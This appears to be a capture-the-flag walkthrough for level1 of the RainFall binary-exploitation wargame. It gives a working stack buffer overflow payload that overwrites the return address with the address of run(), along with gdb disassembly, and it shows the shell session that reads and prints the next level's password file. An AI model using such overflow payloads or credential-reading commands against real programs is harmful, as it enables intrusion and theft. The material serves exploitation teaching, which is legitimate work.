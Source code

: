 # Walkthrough

## Solution
```
$ (python -c "print 'A' * 76 + '\x44\x84\x04\x08'" ; cat) | ./level1 
```

## Explanation

GDB:
info functions -> list all functions available

EIP: Instruction pointer, points to the next function to be executed

https://wiremask.eu/tools/buffer-overflow-pattern-generator/

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp      // substract 80 from esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.

(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux

There is a run function.
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.
```

We need to overflow the buffer, to overwrite EIP with the run function address.
With wiremask, we know that we segfault at character 76.
We are going to write 76 characters followed by the address of run.


python -c "print 'A' * 76 + '\x44\x84\x04\x08'" | ./level1
Good... Wait what?
Segmentation fault (core dumped)

We need to use cat, so that the program wait for an input from stdin
-------------------------------

level1@RainFall:~$ (python -c "print 'A' * 76 + '\x44\x84\x04\x08'" ; cat) | ./level1 
Good... Wait what?
ls
ls: cannot open directory .: Permission denied
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77








/*
Stack based buffer overflows are one of the most common vulnerabilities. Found today. It affects any
function that copies input to memory without doing bounds checking. For example:
Strcpy(),memcpy(),gets(),etc…..
What is a buffer overflow? A buffer overflow occurs when a function copies data into a buffer without
doing bounds checking. So if the source data size is larger than the destination buffer size this data will
overflow the buffer towards higher memory address and probably overwrite previous data on stack.


https://0xrick.github.io/binary-exploitation/bof3/

Transform the address to little endian because in general the stack goes from the top of the memory to the bottom,
thus the "data" you use is always written from low to high  
```
0A 0B 0C 0D
 | | | |    Memory:
 | | |  ---> 0D (a)
 | |  ------> 0C (a+1)
 |  ---------> 0B (a+2)
  -----------> 0A (a+3)
  Little endian
```

*/
